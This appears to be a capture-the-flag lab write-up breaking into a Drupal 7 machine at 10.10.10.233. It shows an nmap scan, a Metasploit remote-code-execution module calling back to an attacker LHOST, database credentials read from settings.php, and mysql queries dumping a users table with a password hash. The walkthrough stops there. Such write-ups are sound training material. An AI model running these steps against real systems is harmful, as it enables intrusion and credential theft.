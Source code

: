 First start with a nmap scant to 10.10.10.233

	sudo nmap -sC -sV -oA nmap_ready 10.10.10.233

We can see that there is a webserver running on port 80. Doing a get request with the browser we can see that there is somekind of login option in the main page.

The nmap scan and wappalyzer tells us that the webserver is using drupal 7.

By searching in exploit database for dupal, we can see that there is a remote code exploit in version 7.5.8 and this exploit is in metasploit

Using metasploit

	msfconsole -q
	search drupal 7.5.8
	use 4
	show option
	set LHOST 10.10.14.230
	set RHOST 10.10.10.233
	run

Now we have access to the webserver.

By going to sites/default we can find the server configuratons in settings.php. In this file we can find a user and password for the database

	user:drupaluser
	pass:CQHEy@9M*m23gBVj

We can use the shell command to get a shell and then do a mysql query

	shell
	mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show databases'
	mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show tables'
	mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select * from users'

In this table we can see the user:

	│brucetherealadmin       S$DX9LiDOVbR2r5.LdRzE42sb4QDNdmnU2Bctsd26IZ.enRllaJUyR

Which is an user of /etc/passwd


